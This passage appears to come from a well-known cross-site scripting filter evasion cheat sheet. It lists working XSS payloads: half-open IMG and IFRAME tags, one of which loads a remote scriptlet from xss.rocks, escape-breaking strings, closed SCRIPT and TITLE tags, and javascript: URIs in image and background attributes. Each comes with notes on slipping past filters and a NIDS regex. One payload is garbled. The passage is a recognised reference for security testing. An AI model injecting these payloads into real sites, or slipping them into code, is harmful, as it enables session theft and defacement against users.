 ````
Unlike Firefox the IE rendering engine doesn’t add extra data to you page, but it does allow the javascript: directive in images. This is useful as a vector because it doesn’t require a close angle bracket. This assumes there is any HTML tag below where you are injecting this cross site scripting vector. Even though there is no close “>” tag the tags below it will close it. A note: this does mess up the HTML, depending on what HTML is beneath it. It gets around the following NIDS regex: `/((\\%3D)|(=))\[^\\n\]\*((\\%3C)|\<)\[^\\n\]+((\\%3E)|\>)/` because it doesn’t require the end “>”. As a side note, this was also affective against a real world XSS filter I came across using an open ended `<IFRAME` tag instead of an `<IMG` tag:

`<IMG SRC="`\`('XSS')"\`

Double Open Angle Brackets
--------------------------

Using an open angle bracket at the end of the vector instead of a close angle bracket causes different behavior in Netscape Gecko rendering. Without it, Firefox will work but Netscape won’t:

`<iframe src=http://xss.rocks/scriptlet.html <`

Escaping JavaScript Escapes
---------------------------

When the application is written to output some user information inside of a JavaScript like the following: `<SCRIPT>var a="$ENV{QUERY\_STRING}";</SCRIPT>` and you want to inject your own JavaScript into it but the server side application escapes certain quotes you can circumvent that by escaping their escape character. When this gets injected it will read `<SCRIPT>var a="\\\\";alert('XSS');//";</SCRIPT>` which ends up un-escaping the double quote and causing the Cross Site Scripting vector to fire. The XSS locator uses this method.:

`\";alert('XSS');//`

An alternative, if correct JSON or Javascript escaping has been applied to the embedded data but not HTML encoding, is to finish the script block and start your own:

`</script><script>alert('XSS');</script>`

End Title Tag
-------------

This is a simple XSS vector that closes `<TITLE>` tags, which can encapsulate the malicious cross site scripting attack:

`</TITLE><SCRIPT>alert("XSS");</SCRIPT>`

INPUT Image
-----------

`<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">`

BODY Image
----------

`<BODY BACKGROUND="javascript:alert('XSS')">`

IMG Dynsrc
----------

`<IMG DYNSRC="javascript:alert('XSS')">`

IMG Lowsrc
----------

`<IMG LOWSRC="javascript:alert('XSS')">`
````